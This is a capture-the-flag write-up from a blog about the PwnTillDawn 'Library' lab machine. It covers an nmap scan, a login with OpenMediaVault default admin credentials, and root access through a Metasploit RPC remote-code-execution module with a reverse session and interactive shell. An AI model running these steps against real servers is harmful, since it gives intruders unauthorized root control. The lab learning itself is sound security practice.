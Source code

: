 ```yaml
---
layout: post
title: PwnTillDawn - Library Write-Up
date: 2024-11-17
classes: wide
description: Exploring an Open Media Vault webserver with Metasploit modules.
---
```


# Library (10.150.150.111)

![](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_library/1.png)

## Scanning Target

The first obvious step is to fire up nmap to gather information about ports on our target:

```
$ sudo nmap -sV -sC -oN scans/nmap.txt 10.150.150.111
```

Interetingly enough, we only have one accessible port, in this case it's `80/tcp` and apparently running Open Media Vault on it.

![](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_library/2.png)



## Webserver Exploration

As shown by Nmap, this is an Open Media Vault control panel running on the web server.

![](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_library/3.png)

A quick note: remember to always check for default credentials, beucase it took me a really long time to figure out it was this obvious. After searching out, I've found the default credentials are `admin:openmediavault`, who would've guessed?

Once we've successfully accessed the control panel with the administration account, we are greeted with the dashboard, showing us  a version string which can be useful to search for exploits later on.

![](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_library/4.png)

After a quick search, discovered that Rapid7 has a Metasploit module to exploit OpenMediaVault version **5.5.11** with a Remote Code Execution (RCE) vulnerability through `rcp.php`, awesome! Moveover, it matches our target version string.

![](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_library/5.png)



## Exploiting Target

Let's try and exploit the server with the recently discovered exploit.

```
$ sudo msfconsole
msf6 > use unix/webapp/openmediavault_rpc_rce
msf6 > set lhost X.X.X.X
msf6 > set rhosts 10.150.150.111
```

![](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_library/6.png)

Looks like it worked, as we got a message informing about a newly created session. Let's check it out by accessing the most recent session in our Metasploit.

```
msf6 > sessions -i -1
meterpreter > shell
/bin/bash -i
```

Not only it worked as expected, but we've now got access directly to the root user, so we won't have to bother with privilege escalation process this time.

Soon after gaining access,  we can find **FLAG1.txt** inside root's home directory.

![](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_library/7.png)

After searching out a while for the second flag, I've came up with the ideia of using grep recursively to find out where it is.

```
$ grep -rni "flag2" / 2>/dev/null
```

What this command does is search out for the string "flag2"  on the root of the system, while ignoring case differences and sending error messages to `/dev/null`.

![](/home/rebellion/blog/jlowborn.github.io/assets/img/post/pwntilldawn_library/8.png)

